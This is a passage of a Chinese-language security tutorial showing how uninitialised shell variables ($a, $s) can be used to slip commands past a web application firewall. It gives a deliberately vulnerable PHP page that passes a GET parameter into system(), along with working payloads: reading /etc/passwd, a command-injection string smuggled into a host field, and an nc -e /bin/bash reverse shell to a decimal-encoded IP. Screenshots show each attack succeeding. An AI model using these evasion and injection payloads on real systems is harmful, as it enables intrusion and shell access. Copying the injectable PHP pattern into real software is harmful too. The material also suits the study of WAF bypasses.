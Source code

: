 ```bash
root@kali:~# echo $a

root@kali:~# echo $b

root@kali:~# echo $c

root@kali:~# 
```

未初始化的变量值都是null。

读取/etc/passwd：

```bash
cat$a /etc$a/passwd$a
```

[![读取/etc/passwd](https://image.3001.net/images/20180921/1537502886_5ba46ea63da4c.png!small)](https://image.3001.net/images/20180921/1537502886_5ba46ea63da4c.png)

### 测试WAF

测试代码：

```bash
<?php
echo "OK";
system('dig '.$_GET['host']);
?>
```

[![测试WAF](https://image.3001.net/images/20180921/1537502890_5ba46eaae5868.png!small)](https://image.3001.net/images/20180921/1537502890_5ba46eaae5868.png)

```bash
www.baidu.com;$s/bin$s/which$s nc$s
```

[![测试代码](https://image.3001.net/images/20180921/1537502895_5ba46eaf5c2cf.png!small)](https://image.3001.net/images/20180921/1537502895_5ba46eaf5c2cf.png)

反弹shell：



```bash
/bin$s/nc$s -e /bin$s/bash$s 2130706433 3737
```



执行：

[![执行](https://image.3001.net/images/20180921/1537502900_5ba46eb46ac57.png!small)](https://image.3001.net/images/20180921/1537502900_5ba46eb46ac57.png)

成功：

[![成功](https://image.3001.net/images/20180921/1537502905_5ba46eb9427e5.png!small)](https://image.3001.net/images/20180921/1537502905_5ba46eb9427e5.png)
